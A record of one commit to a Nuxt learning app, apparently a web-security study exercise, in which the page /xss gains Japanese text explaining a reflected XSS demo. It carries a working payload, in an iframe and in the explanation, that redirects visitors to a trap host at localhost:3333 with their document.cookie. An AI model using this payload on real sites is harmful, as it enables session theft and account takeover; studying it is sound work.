

Before and after one commit to watanata/nuxt2-tar, a Nuxt app: page /xss in a window 1280 px wide. Shown: the top 470 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add description for xss.vue

```diff
--- a/pages/xss.vue
+++ b/pages/xss.vue
@@ -4,8 +4,21 @@
       本の91ページのやつ</br>
       以下のiframeはCSSで隠せる
     </div>
-    <iframe width=320 height=100 src="http://localhost:3000/show?name=<script>window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;</script>"></iframe>
-    <iframe width=320 height=100 src="http://localhost:3000/show?name=watanata"></iframe>
+
+    </br>
+    <div>
+      <p>XSS脆弱性のある下記のページ(localhost:3000/show)にパラメータとして</br>
+      <strong>?name=&lt;script&gt;window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;&lt;/script&gt;</strong></br>
+      をリクエストしている。そのためこのページにアクセスした人はhttp://localhost:3333/hoge?sid=に強制的にリダイレクトさせられ、クッキーの値をクエリとしてリクエストさせられる。</br>
+      localhost:3333/hogeも罠サイトでありパラメータの値を攻撃者にメール送信するなどすればアクセスした人のクッキーの値を盗むことができる</p>
+      <iframe width=320 height=100 src="http://localhost:3000/show?name=<script>window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;</script>"></iframe>
+    </div>
+
+    </br>
+    <div>
+      <p>単純に?name=watanataでアクセスすると下記のようになる</p>
+      <iframe width=320 height=100 src="http://localhost:3000/show?name=watanata"></iframe>
+    </div>
   </div>
 
 </template>
```
